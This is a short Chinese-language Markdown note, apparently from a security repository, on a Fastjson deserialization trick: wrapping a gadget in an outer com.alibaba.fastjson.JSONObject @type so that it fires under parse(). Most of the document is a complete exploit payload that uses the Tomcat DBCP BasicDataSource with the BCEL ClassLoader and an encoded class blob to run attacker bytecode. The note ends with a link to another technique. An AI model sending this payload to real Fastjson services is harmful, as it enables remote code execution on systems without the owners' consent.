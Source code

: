 # FastJson Trick.md

## parse调用parseObjetc

Fastjson反序列化的时候所用的是Parse而不是ParseObject，这里就会有一个Trick，就是在原本的@type上再嵌套一层@type，并设置为 '@type':"com.alibaba.fastjson.JSONObject",

```
{
    {
        '@type':"com.alibaba.fastjson.JSONObject",
        'a':
        {
            '@type':"org.apache.tomcat.dbcp.dbcp.BasicDataSource",
            'driverClassLoader':
            {
                '@type':"com.sun.org.apache.bcel.internal.util.ClassLoader"
            },
            'driverClassName':'$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeQ$5dO$U1$U$3d$dd$af$ce$8e$b3$C$8b$a0$$$$$f2$a9$L$89$cc$8bo$Q$TB01$aeb$i$a2$d9$Y$S$3a$a5Y$8a$b33$cdL$d7$ac$bf$c8g$5e$d0$98$e8$P$f0G$Zn$t$E$fc$e8$c3m$ef$e99$e7$de$de$fe$fa$fd$fd$t$80$a7x$ec$e3$W$e6$7c$cc$e3$$$c7$3d$P$f7$3dt$3c$y8$e0$BG$d7$87$87E$8e$87$iK$M$8d$j$9dj$fb$8c$a1$da$dbx$c7P$db$cbN$U$c3T_$a7$ea$f5x$U$ab$fcP$c4$J$n$de$8eL$ae$98$ad$c8$K$f9$f1$950$e5$V$Z2$f8Q6$ce$a5z$ae$j5$d8$9f$98$q$d3v$ebL$7c$S$B$C$b48$96$D$ac$60$95a$daaa$o$d2a$Y$d9$5c$a7C$86f$Y$eb4$8cEq$caPy$o$Zz$99Q$e9R$Y$7d$$$ac$g$85$bb$c6$qZ$K$ab$b3$b4$I$f7D$o$c7$89$b0Y$be$r$8c$J$b0$86u$86$d9$d2Sg$e1$8b$83$fd$89T$c6Q$D$3cB$8b$81_$b5$f2W$e1$83$f8LI$82fn$a0$b7$e3$d4$ea$R$f5$ee$P$95$bdN$e6z$h$fd$ff8$db4$q5Q$ae$cf$de$87$fe$bf$cf$d9$feS$f1$s$cf$a4$w$KRL$Z$ba$b4$e5$dc$Os$n$V$96$e1$fe$c8$ad$K$98$h$R$c5$db$94uig$b4$d77$bf$82$9d$d3$81$b4$U$h$r$d8$a4$8f$9b$be$a6$k$a3$5e$a2$ab$dfPi$fc$40uPm$d7$a2A$ad$5d$8f$G$f5v$p$ba$A$7f$ff$F$de$cb$cd$L4$cfKb$87$dc$3d$aa$e7$M$e7I$M$aa$db$a1$acK$96$8bd$b9B$e63$84rT$8e8$da5$S$cd$96$N$de$b9$E5$c7$QjZ$C$A$A',
             "DefaultCatalog":"23333"
        }
    }:'b'
}
```
## parse触发get另一种思路
https://mp.weixin.qq.com/s?__biz=MzAxNTg0ODU4OQ==&mid=2650358489&idx=1&sn=2d1f600da6f01b644544331a844139ae&chksm=83f0273bb487ae2d85984c541adc7a928bdca396aa6ad3c0c349e2ef044558539f2f7075ad1f&mpshare=1&scene=23&srcid=1123yB78GUjwHduKmaU9BGSa&sharer_sharetime=1637650532436&sharer_shareid=18ef5175242004180f2ee4dd9c244e8a#rd

